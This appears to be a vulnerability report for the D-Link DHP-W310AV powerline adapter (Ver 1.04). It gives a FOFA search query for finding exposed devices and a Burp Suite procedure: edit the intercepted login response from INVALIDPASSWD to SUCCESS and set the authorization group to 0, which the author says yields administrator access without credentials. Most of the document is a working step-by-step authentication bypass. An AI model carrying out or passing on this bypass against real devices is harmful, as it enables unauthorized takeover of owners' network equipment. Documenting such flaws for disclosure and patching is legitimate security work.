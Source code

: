 ## supplier
[support.dlink.com](https://support.dlink.com/)
## describe
We can use fofa to find the asset of this device.
app="D_Link-无线电力猫"
![](image-20250127150542675.png)
We need to capture the login packet when entering the password, and then intercept the return packet.(Burp:Reponse to the request)
```
HTTP/1.1 200 OK
Server: Linux, HTTP/1.1, DHP-W310AV Ver 1.04
Date: Fri, 28 Jan 2000 22:00:30 GMT
Connection: close
Content-Type: text/xml
Content-Length: 168

<?xml version="1.0" encoding="utf-8"?>
<report>
	<RESULT>INVALIDPASSWD</RESULT>
	<REASON></REASON>
	<AUTHORIZED_GROUP>-1</AUTHORIZED_GROUP>
	<PELOTA></PELOTA>
</report>
```
I need to change INVALIDPASSWD to SUCCESS and -1 to 0.
```
HTTP/1.1 200 OK
Server: Linux, HTTP/1.1, DHP-W310AV Ver 1.04
Date: Fri, 28 Jan 2000 22:00:30 GMT
Connection: close
Content-Type: text/xml
Content-Length: 168

<?xml version="1.0" encoding="utf-8"?>
<report>
	<RESULT>SUCCESS</RESULT>
	<REASON></REASON>
	<AUTHORIZED_GROUP>0</AUTHORIZED_GROUP>
	<PELOTA></PELOTA>
</report>
```
Forward
![](image-20250127150952119.png)
In the end, I managed to get administrator privileges without authorization
